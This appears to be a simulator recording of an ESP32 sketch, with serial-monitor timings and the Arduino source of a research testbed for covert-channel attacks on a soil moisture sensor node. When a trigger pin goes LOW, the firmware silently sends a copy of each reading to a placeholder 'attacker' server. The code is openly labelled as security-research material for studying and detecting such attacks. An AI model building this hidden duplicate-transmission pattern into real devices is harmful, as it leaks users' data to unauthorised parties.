
Recording of a sketch running on a simulated ESP32. Parts: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band); at power-on: GPIO 32 (CCA_SWITCH_PIN) HIGH, GPIO 33 (SOIL_MOISTURE_PIN) = 2048. WiFi joins after 1.5 s; servers stay silent unless stated.

Above: at 3.2 s.
3.3 s: GPIO 32 (CCA_SWITCH_PIN) pulled LOW for 2.3 s
At 5.0 s:

7.1 s: GPIO 33 (SOIL_MOISTURE_PIN) set to 2866
At 9.4 s:

9.8 s: GPIO 33 (SOIL_MOISTURE_PIN) set to 3603
At 11.0 s:

12.5 s: GPIO 32 (CCA_SWITCH_PIN) pulled LOW for 2.3 s
At 15.6 s:

Timing chart, 0 to 17.1 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 3.3 s, the serial monitor: prints a new line after 1.1 s (image 1)
- after the input at 7.1 s, the serial monitor: prints a new line after 1.3 s (image 2)
- after the input at 9.8 s, the serial monitor: prints a new line after 0.61 s (image 3)
- after the input at 12.5 s, the serial monitor: prints a new line after 2.3 s (image 4)
- plotted number 1: 50 → 31 after the input at 7.1 s, 31 → 13 after the input at 9.8 s

The sketch:

Sender1WifiUDPProtocol.ino
```cpp
/*
 * ============================================================================
 * Soil Moisture Sensor Node — Covert Channel Attack (CCA) Testbed Firmware
 * ============================================================================
 *
 * PURPOSE:
 *   This firmware implements an ESP32-based soil moisture sensor node used
 *   as a research testbed for studying CCA in IoT agricultural sensing networks.
 *   It is based on / accompanies the published research papers' DOIs
     (10.1109/ACCESS.2025.3626798 and 10.1109/HONET67928.2025.11318504).
 *
 *   In NORMAL operation, the node reads soil moisture and reports it over
 *   UDP to a legitimate server (SERVER_IP). When manually/autonomously the attack is
 *   is triggred at the (CCA_SWITCH_PIN), the node ALSO transmits a
 *   second, identical-looking packet to a separate, attacker-controlled
 *   endpoint (SERVER_IP_Attack). This simulates a compromised sensor node
 *   silently exfiltrating data to an unauthorized party - a covert channel.
 *
 *   IMPORTANT: This is intentionally vulnerable / malicious-behavior
 *   firmware built for controlled security research and demonstration
 *   purposes ONLY. The attack trigger here is based upon receiving a LOW (GND)
 *   signal from solid state relay (SSR) module that is connected to the GND
 *   of the ESP32, chosen for reproducibility in the lab setting.
 *
 * THREAT MODEL:
 *   - Legitimate channel: ESP32 -> SERVER_IP (trusted monitoring server)
 *   - Covert channel:     ESP32 -> SERVER_IP_Attack (adversary-controlled)
 *   - Trigger:            CCA_SWITCH_PIN pulled LOW (manually/autonomously, for demo repeatability)
 *
 * ============================================================================
 */

#include <WiFi.h>
#include <WiFiUdp.h>

// ---------------------------------------------------------------------------
// Pin configuration
// ---------------------------------------------------------------------------
#define SOIL_MOISTURE_PIN 33  // Analog input from capacitive soil moisture sensor
#define CCA_SWITCH_PIN 32     // Manual/Autonomous trigger pin for the covert channel attack demo

// ---------------------------------------------------------------------------
// Network configuration
// ---------------------------------------------------------------------------
#define SERVER_PORT 12345           // UDP port used for both legitimate and covert traffic
#define SERVER_IP "x.x.x.x"         // Legitimate server: trusted destination IP address
#define SERVER_IP_Attack "x.x.x.x"  // Adversary server: covert/unauthorized destination IP address

const char *ssid = "xxx";      // Wi-Fi SSID — replace with your testbed network
const char *password = "xxx";  // Wi-Fi password — replace with your testbed network credentials

// ---------------------------------------------------------------------------
// ADC / sensor calibration
// ---------------------------------------------------------------------------
// ESP32 ADC resolution is 12-bit (0-4095).
#define ADC_MAX_VALUE 4095

WiFiUDP udp;

// ---------------------------------------------------------------------------
// Reads the soil moisture sensor and converts it to a 0-100% scale.
// Centralized here so both the legitimate loop() and the attack function use identical logic.
// ---------------------------------------------------------------------------
int readSoilMoisturePercent() {
  int rawValue = analogRead(SOIL_MOISTURE_PIN);
  int moisturePercent = abs(((rawValue * 100) / ADC_MAX_VALUE) - 100);
  return moisturePercent;
}

// ---------------------------------------------------------------------------
// Covert Channel Attack (CCA)
// Simulates a compromised node silently duplicating sensor data to an
// unauthorized, attacker-controlled server.
// ---------------------------------------------------------------------------
void startCCAAttack() {
  Serial.println("Covert Channel Attack Enabled...");
  // Uncomment this to amplify the power-consumption signature for attack detection if needed instead of using only the external operational amplifier (OP-AMP) circuit.
  //setCpuFrequencyMhz(XX);

  int moisturePercent = readSoilMoisturePercent();
  String data = "Soil Moisture: " + String(moisturePercent);

  // Sending to the attacker-controlled receiver — this is the unauthorized
  // covert channel, separate from the legitimate SERVER_IP destination.
  udp.beginPacket(SERVER_IP_Attack, SERVER_PORT);
  udp.print(data);
  udp.endPacket();

  Serial.println("[CCA] Soil Moisture Packet Sent to attacker endpoint: " + data);
}

void setup() {
  Serial.begin(115200);

  // Sensor and trigger pin setup
  pinMode(SOIL_MOISTURE_PIN, INPUT);
  pinMode(CCA_SWITCH_PIN, INPUT_PULLUP);  // Active-LOW attack trigger

  // Connect to Wi-Fi
  WiFi.begin(ssid, password);
  while (WiFi.status() != WL_CONNECTED) {
    delay(1000);
    Serial.print(".");
  }
  Serial.println("Connected to Wi-Fi");

  // Initialize UDP socket (port 0 = let the OS/stack auto-assign a local port)
  udp.begin(0);
}

void loop() {
  setCpuFrequencyMhz(80);  // Fixed baseline so any frequency change during
                           // startCCAAttack() produces a measurable power-draw signature

  // --- Legitimate channel: normal sensor reporting ---
  int moisturePercent = readSoilMoisturePercent();
  String data = "Soil Moisture: " + String(moisturePercent);

  Serial.println("Soil Moisture Packet Sent: " + data);
  udp.beginPacket(SERVER_IP, SERVER_PORT);
  udp.print(data);
  udp.endPacket();

  // --- Attack trigger check ---
  // If the CCA_SWITCH_PIN was pulled LOW (manually or by the autonomous trigger circuit), this would start the covert channel attack.
  if (digitalRead(CCA_SWITCH_PIN) == LOW) {
    delay(400);  // avoids switch/relay bounce on the trigger signal
    startCCAAttack();
  }

  delay(2000);
}
```
